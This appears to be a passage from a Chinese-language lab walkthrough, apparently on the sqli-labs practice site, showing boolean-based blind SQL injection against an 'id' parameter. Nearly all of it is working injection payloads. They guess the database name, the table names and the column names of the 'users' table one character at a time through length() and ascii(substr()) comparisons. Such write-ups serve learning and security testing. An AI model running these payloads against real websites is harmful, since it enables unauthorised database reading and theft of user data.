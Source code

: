 ```cobol
?id=1" and length((select database()))=8-- +
```

爆数据名

```cobol
s
/?id=1" and ascii(substr((select database()),1,1))=115-- +

e
?id=1" and ascii(substr((select database()),2,1))=101-- +
.....
 
 
```

最后得到 security

表的长度

```cobol
/?id=1" and length((select group_concat(table_name)from information_schema.tables where table_schema='security'))=29-- +
```

猜表名

```cobol
e
?id=1" and%20 ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='security'),1,1))=101 -- +

m
?id=1" and%20 ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='security'),2,1))=109 -- +
```

最后得到了

emails,referers,uagents,users

猜字段长度

```cobol
?id=1"and length((select group_concat(column_name)from information_schema.columns where table_name='users' and table_schema='security'))=20 -- +
```

猜字段名字

```cobol
i
/?id=1" and%20 ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='users' and table_schema='security'),1,1))=105 -- +

d
/?id=1" and%20 ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='users' and table_schema='security'),2,1))=100 -- +
```
